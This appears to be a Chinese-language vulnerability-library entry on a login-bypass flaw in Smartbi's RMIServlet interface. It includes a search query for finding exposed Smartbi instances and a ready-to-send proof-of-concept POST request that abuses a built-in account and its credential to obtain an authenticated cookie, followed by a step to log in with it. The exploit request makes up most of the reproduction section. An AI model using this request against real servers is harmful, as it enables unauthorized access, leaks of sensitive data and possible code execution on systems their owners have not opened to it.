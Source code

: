 # smartbi RMIServlet 登陆绕过漏洞

## 漏洞描述

Smartbi在安装时会内置几个用户，在使用特定接口时，可绕过用户身份认证机制获取其身份凭证，随后可使用获取的身份凭证调用后台接口，可能导致敏感信息泄露和代码执行。

## 漏洞影响

<a-checkbox checked>smartbi</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="SMARTBI"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1697869616391-78bb3b63-9a12-4276-a441-8d9c37cd939f.png)

验证POC

```php
POST /vision/RMIServlet HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded

className=UserService&methodName=loginFromDB&params=["service","0a"]
```

![img](../../../.vuepress/public/img/1697869636461-ab390dbf-5dd0-4be9-88dc-e94cd8fb0801.png)

通过获取的Cookie登陆